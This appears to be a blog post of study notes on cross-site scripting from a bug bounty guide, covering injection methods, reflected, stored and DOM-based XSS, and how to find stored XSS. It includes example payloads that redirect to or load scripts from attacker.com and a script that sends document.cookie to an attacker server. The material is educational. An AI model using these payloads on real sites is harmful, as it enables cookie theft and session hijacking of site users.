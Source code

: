 ```yaml
---
layout: post
title: CROSS-SITE SCRIPTING (XSS)
date: 2023-07-17
categories: [cybersecurity, web-security,Bug_Bounty_Bootcamp_The_Guide_to_Finding_and_Reporting_Web_Vulnerabilities,XSS ]
---
```



# Chapter 6 : CROSS-SITE SCRIPTING

An XSS vulnerability occurs when attackers can execute custom scripts on a victim's browser. If an application fails to distinguish between user input and the legitimate code that makes up a web page, attackers can inject their own code into pages viewed by other users. The victim's browser will then execute the malicious script, which might steal cookies, leak personal information, change site contents, or redirect the user to a malicious site. These malicious scripts are often JavaScript code but can also be HTML, Flash, VBScript, or anything written in a language that the browser can execute.

# XSS Injection Methods

There are different ways that attackers can inject malicious code into web pages, such as:

1. Inline script injection: The attacker inserts a `<script>` tag with the code directly into the web page. For example: 
```html
<script>location = "http://attacker.com";</script>
```

2. External script source injection: The attacker uses the `src` attribute of the `<script>` tag to load the code from an external source. For example: `<script src="http://attacker.com/xss.js"></script>`.

3. Malicious URL injection: The attacker crafts a URL that contains the code as a parameter and tricks the user into visiting it. For example: `https://subscribe.example.com?email=<script>location="http://attacker.com";</script>`.

4. Stealing user cookies: The attacker uses the `document.cookie` property to access and send the user’s cookies to a malicious server. For example: `<script>image = new Image(); image.src='http://attacker_server_ip/?c='+document.cookie;</script>`.

# Types of XSS

There are three main types of XSS attacks:

- Reflected XSS: The attacker’s code is sent as part of the user’s request and reflected back by the server in the response. The user has to click on a malicious link or visit a malicious site to trigger the attack.
- Stored XSS: The attacker’s code is stored on the server, such as in a database, a comment field, or a profile. The user views the affected web page and executes the code without any interaction.
- DOM-based XSS: The attacker’s code is executed in the user’s browser by manipulating the DOM (Document Object Model) of the web page. The code never leaves the browser and does not involve the server.

## What is Stored Cross-Site Scripting?

Stored cross-site scripting (also known as second-order or persistent XSS) arises when an application receives data from an untrusted source and includes that data within its later HTTP responses in an unsafe way.

### Example Scenario on how Stored XSS Works

Suppose a website allows users to submit comments on blog posts, which are displayed to other users. Users submit comments using an HTTP request like the following:
```http
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Length: 100

postId=3&comment=This+post+was+extremely+helpful.&name=Carlos+Montoya&email=carlos%40normal-user.net
```

After this comment has been submitted, any user who visits the blog post will receive the following within the application's response:
```html
<p>This post was extremely helpful.</p>
```
### what an Attack can do 
Assuming the application doesn't perform any other processing of the data, an attacker can submit a malicious comment like this:
```html
<script>/* Bad stuff here... */</script>
```
Within the attacker's request, this comment would be URL-encoded as:
`comment=%3Cscript%3E%2F*%2BBad%2Bstuff%2Bhere...%2B*%2F%3C%2Fscript%3E
`
Any user who visits the blog post will now receive the following within the application's response:

```html
<p><script>/* Bad stuff here... */</script></p>
```
## Finding Stored XSS Vulnerabilities

To find stored XSS vulnerabilities, you need to test all relevant entry points and exit points in the application. Entry points are where the attacker can submit data to the application, such as URL parameters, form inputs, or HTTP headers. Exit points are where the data is displayed to other users, such as web pages, emails, or logs.

1. **Identify Entry and Exit Points:**
   Entry points are areas where users can input data, and exit points are places where that data is displayed to others. For example, consider a blog post comment feature, where users can input comments, and those comments are displayed on the blog post page.

2. **Test Links Between Points:**
   Submit specific values to the entry points and observe the application's responses. For example, submit the comment "test123" and see if it appears on the blog post page. If the comment is visible, proceed to the next step.

3. **Check Data Storage:**
   Determine if the data is stored on the server or just reflected in the immediate response. Suppose the application stores the comment data in a database, and when the blog post page is accessed, it retrieves and displays the stored comments.

4. **Test XSS Payloads:**
   Inject suitable XSS payloads into each context where the data appears. For example, try injecting the script tag `<script>alert('XSS')</script>` into the comment. If the script executes on the browser when displayed within an HTML context, it indicates a stored XSS vulnerability.


### Entry Point to application can be like : 
   
- Parameters in the URL Query String and Message Body:

In a web application, there might be a search functionality that allows users to search for products using the URL query string. For example: https://example.com/search?keyword=user_input, where user_input is the search term provided by the user. If the application doesn't properly validate and sanitize this input, it becomes vulnerable to XSS attacks. An attacker could inject malicious scripts, like <script>alert('XSS');</script>, into the search term. If the application reflects this input back to other users without proper encoding, the script could execute in their browsers.

- The URL File Path:

Suppose a web application serves different pages based on the URL file path, like https://example.com/pages/page1.html, where page1.html represents a specific page on the website. If the application fails to handle the file path securely, an attacker could manipulate it and attempt to inject scripts. For example, an attacker might try to access a non-existing page like https://example.com/pages/<script>alert('XSS');</script>, hoping the application reflects the input in the response and triggers an XSS vulnerability.

- HTTP Request Headers:

Although HTTP request headers are not typically exploited for reflected XSS, they can be entry points for other types of attacks or security issues. For instance, an application might rely on a custom request header for authentication or session management. If the application doesn't validate and handle these headers securely, attackers might manipulate them to gain unauthorized access or perform malicious actions.

- Out-of-Band Routes:

Consider a web application that aggregates news articles from external websites. The application processes and displays these articles on its platform. If the application fails to sanitize data received from external sources, an attacker could inject malicious content into these articles. For instance, the attacker might compromise an external news source and inject a malicious script into one of the articles. When the web application displays this article to its users, it unknowingly executes the malicious script, leading to an XSS attack.



